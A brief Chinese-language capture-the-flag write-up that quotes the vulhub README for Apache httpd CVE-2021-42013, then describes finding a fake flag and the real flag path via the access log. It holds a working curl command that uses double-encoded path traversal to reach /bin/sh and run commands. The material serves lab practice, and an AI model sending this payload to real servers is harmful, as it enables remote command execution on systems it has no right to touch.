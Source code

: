 [vulhub/README.zh-cn.md at master · vulhub/vulhub](https://github.com/vulhub/vulhub/blob/master/httpd/CVE-2021-42013/README.zh-cn.md)

```bash
在服务端开启了cgi或cgid这两个mod的情况下，这个路径穿越漏洞将可以执行任意命令：
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

根目录下为假flag

![Untitled](2022%2006%206a2030723e0843c9aa42c494cb1e2094/Untitled%202.png)

**想起来f12中的文件路径**

/usr/local/apache2/logs/access_log

结果太多转到了记事本里面搜索发现就在根目录有奇怪的文件夹

/diajgk/djflgak/qweqr/eigopl/fffffflalllallalagggggggggg

![Untitled](2022%2006%206a2030723e0843c9aa42c494cb1e2094/Untitled%203.png)

